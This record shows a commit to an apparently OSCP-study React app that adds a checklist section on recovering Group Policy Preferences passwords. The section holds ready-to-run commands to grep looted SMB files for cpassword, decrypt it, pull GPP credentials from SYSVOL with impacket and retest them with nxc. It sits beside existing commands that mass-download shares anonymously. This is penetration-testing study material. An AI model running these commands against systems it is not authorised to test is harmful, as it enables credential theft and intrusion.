

Before and after one commit to nullptrerror/oscp, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 820-1620 px from the top of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
feat: add GPP credential recovery checklist

```diff
--- a/src/components/VariablesPanel.jsx
+++ b/src/components/VariablesPanel.jsx
@@ -13,6 +13,7 @@ const LABELS = {
   dc: "Domain controller",
   user: "Username",
   password: "Password",
+  gppCpassword: "GPP cpassword",
   hash: "NTLM / hash",
   subnet: "Pivot subnet",
   interface: "VPN interface",
--- a/src/data/checklist.js
+++ b/src/data/checklist.js
@@ -9,6 +9,7 @@ export const DEFAULT_VARIABLES = {
   dc: "dc01.corp.local",
   user: "student",
   password: "Password123!",
+  gppCpassword: "",
   hash: "NTLM_OR_HASH",
   subnet: "172.16.10.0/24",
   interface: "tun0",
@@ -18,7 +19,7 @@ export const DEFAULT_VARIABLES = {
 export const VARIABLE_GROUPS = [
   { label: "Operator", keys: ["lhost", "lport", "interface"] },
   { label: "Target", keys: ["targetName", "rhost", "rport", "subnet"] },
-  { label: "Identity", keys: ["domain", "baseDn", "dc", "user", "password", "hash"] },
+  { label: "Identity", keys: ["domain", "baseDn", "dc", "user", "password", "gppCpassword", "hash"] },
   { label: "Resources", keys: ["wordlist"] },
 ];
 
@@ -121,6 +122,18 @@ export const CHECKLIST = [
           { label: "Dump shares (Anonymous)", value: "mkdir -p ~/oscp/{{targetName}}/loot/smb && { smbclient -N -L //{{rhost}} 2>/dev/null || smbclient -U 'guest%' -L //{{rhost}} 2>/dev/null; } | awk '/Disk/ {print $1}' | while read -r s; do [ -z \"$s\" ] && continue; echo \"[*] Checking share: $s\"; mkdir -p ~/oscp/{{targetName}}/loot/smb/\"$s\" && (cd ~/oscp/{{targetName}}/loot/smb/\"$s\" && { smbclient //{{rhost}}/\"$s\" -N -c 'recurse ON; prompt OFF; mget *' >/dev/null 2>&1 || smbclient //{{rhost}}/\"$s\" -U 'guest%' -c 'recurse ON; prompt OFF; mget *' >/dev/null 2>&1; }); done && find ~/oscp/{{targetName}}/loot/smb -mindepth 1 -type d -empty -delete 2>/dev/null && ls -la ~/oscp/{{targetName}}/loot/smb/" },
           { label: "Authenticated SMB", value: "nxc smb {{rhost}} -u '{{user}}' -p '{{password}}' --shares --users --groups --sessions" },
           { label: "Download share", value: "smbclient //{{rhost}}/SHARE -U '{{domain}}/{{user}}%{{password}}' -c 'recurse ON; prompt OFF; mget *'" },
+        ],
+      },
+      {
+        id: "svc-smb-gpp",
+        title: "Group Policy Preferences (GPP) credentials",
+        detail: "A cpassword from an XML file is encrypted data, not the login password. Preserve the XML and its userName/runAs field, decrypt the cpassword, then replace the normal user/password variables with the recovered credential before retesting SMB.",
+        commands: [
+          { label: "Find downloaded GPP XML", value: "grep -Rni --include='*.xml' -E 'cpassword|userName|runAs' ~/oscp/{{targetName}}/loot/smb" },
+          { label: "Decrypt one cpassword", value: "gpp-decrypt '{{gppCpassword}}'" },
+          { label: "Parse a saved XML file", value: "impacket-Get-GPPPassword LOCAL -xmlfile /path/to/Groups.xml" },
+          { label: "Search SYSVOL with valid credentials", value: "impacket-Get-GPPPassword '{{domain}}/{{user}}:{{password}}@{{rhost}}' -dc-ip {{rhost}}" },
+          { label: "Retest recovered credential", value: "nxc smb {{rhost}} -d '{{domain}}' -u '{{user}}' -p '{{password}}' --shares --users --groups" },
         ],
       },
       {
```
